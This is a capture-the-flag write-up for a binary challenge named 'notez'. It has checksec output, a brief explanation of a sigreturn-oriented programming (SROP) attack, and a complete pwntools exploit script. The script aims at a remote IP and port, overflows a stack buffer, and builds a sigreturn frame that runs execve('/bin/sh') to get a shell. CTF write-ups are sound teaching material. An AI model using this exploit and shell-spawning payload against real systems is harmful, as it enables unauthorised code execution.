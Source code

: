 # notez

```
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

This challenge was a classic `SROP` one. With our buffer on the stack we overwrote the variable that holds the size used by the `read` function. 
With the stack leak and the buffer overflow we can rebuild rbp and call `read` with an arbitrary size.
Since we have a `syscall` and a `pop rax;ret` gadget:
- Stage 1: offset + new_size_bigger_equal_248_bytes + rbp + read_call_in_main
- Stage 2: bin_sh_string + offset + pop_rax_gadget + sigreturn_syscall_number + syscall + SigreturnFrame

## Exploit
```py
#!/usr/bin/env python3

from pwn import *

elf = ELF("./notez")
#libc = ELF("./")
#ld = ELF("./")

context.binary = elf
#context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"
gs = '''
'''

domain= "161.97.155.116"
port = 14337

def start():
    if args.REMOTE:
        return remote(domain, port)
    if args.GDB:
        return gdb.debug([elf.path], gdbscript=gs)
    else:
        return process([elf.path])
r = start()

#========= exploit here ===================

r.recvuntil(b"walkthrough: ")
size_addr = int(r.recvline().strip(),16)
rbp = size_addr

r.info("size_addr: " + hex(size_addr))
r.info("rbp: " + hex(rbp))

pop_rax = 0x00000000004011da
syscall = 0x00000000004011dc
leave_ret = 0x00000000004012cb
buf = 0x0000000000404070
read = 0x0040126c                
binsh = 0x404070

# size enlarging
payload = b"A" * 0x18 + p32(0x340) + b"A"*4
payload += p64(rbp) + p64(read)
assert(len(payload) == 0x30)
r.send(payload)


frame = SigreturnFrame()
frame.rax = 59                              # syscall number for execve()
frame.rdi = binsh                           # pointer to "/bin/sh" 
frame.rsi = 0                               # NULL
frame.rdx = 0                               # NULL
frame.rip = syscall                         # syscall address
frame.uc_flags = syscall
frame.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
frame = bytes(frame)

payload  = b"/bin/sh\x00" + b"A" * 0x24
payload += p64(pop_rax)
payload += p64(0xf)
payload += p64(syscall)
payload += frame
payload += b"A" * (0x340 - len(payload))

r.send(payload)

r.interactive()
```

`QnQ{the_server_is_down_:\}`
